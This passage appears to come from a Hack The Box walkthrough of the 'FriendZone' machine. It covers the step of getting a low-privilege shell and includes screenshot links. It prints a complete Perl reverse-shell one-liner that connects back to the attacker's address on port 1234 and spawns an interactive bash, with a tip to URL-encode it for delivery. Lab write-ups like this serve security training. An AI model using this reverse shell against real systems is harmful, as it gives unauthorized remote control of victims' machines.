 <a class="image-popup">
![5f0a0cde.png](/assets/images/posts/friendzone-htb-walkthrough/5f0a0cde.png)
</a>

Sweet. Time to get ourselves a Perl reverse shell.

## Low-Privilege Shell

Here\'s the Perl one-liner I use.

```
perl -e 'use Socket;$i="10.10.12.246";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Of course, it\'s best to `urlencode` it to prevent complications in the browser's address bar.

<a class="image-popup">
![14648ca0.png](/assets/images/posts/friendzone-htb-walkthrough/14648ca0.png)
</a>
